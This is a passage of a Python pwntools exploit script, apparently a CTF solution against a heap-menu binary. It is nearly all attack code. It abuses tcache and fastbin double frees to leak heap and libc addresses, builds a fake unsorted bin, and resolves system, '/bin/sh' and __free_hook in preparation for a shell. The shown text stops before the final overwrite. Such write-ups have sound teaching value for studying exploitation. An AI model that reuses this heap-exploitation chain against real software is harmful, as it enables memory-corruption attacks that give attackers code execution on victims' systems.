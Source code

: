 ```python

    for i in range(6):
        pop(3)
    pop(4)

    # heap leak
    examine(3, 2)
    heap_leak = u64(p.recv(6) + "\x00\x00") - 0x3a0
    fake_unsorted = heap_leak + 0x590
    success("heap_leak: %s"%hex(heap_leak))
    

    # now tcache 0x20 is full, try to get double free in fastbin 0x20
    popright(2)
    for i in range(4):
        pop(1)
    pop(2)

    # assume we have a perfect fast bin (bruteforce required): victim -> another chunk -> victim (loop detected)
    # drain all chunk in tcache 0x20
    for i in range(6):
        push(3, str(i)*0x10)
    push(4, str(4)*0x10)

    # since tcache 0x20 is empty, if we allocate a chunk in fastbin, the rest will be taken to tcache 
    # allocate victim and overwrite to wanted address
    push(1, p64((fake_unsorted) | 0x69000000000000)) # because the last char will be replaced wil null byte => need a garbage value
    for i in range(6):
        pop(3)

    # put chunks 0x60 to craft a fake unsorted bin
    for i in range(6):
        push(3, "B" * 0x48)
    for i in range(3):
        push(4, "C" * 0x48)
    for i in range(4):
        push(2, "A" * 0x48)

    # put all in tcache 0x60
    for i in range(6):
        pop(3)
    for i in range(3):
        pop(4)

    # overwrite size of fake unsorted bin
    for i in range(3):
        pushleft(2, "A"*0x10)

    pushleft(3, "A"*0x10)
    pushleft(3, "A"*0x8 + p64(0x4a1 | 0x690000))

    popright(3)

    # leak libc
    p.sendlineafter("> ", "examine36")
    libc.address = u64(p.recv(6) + "\x00\x00") - 0x1ecbe0
    system = libc.symbols["system"]
    binsh = next(libc.search("/bin/sh"))
    freehook = libc.symbols["__free_hook"]
    success("libc: %s"%hex(libc.address))
```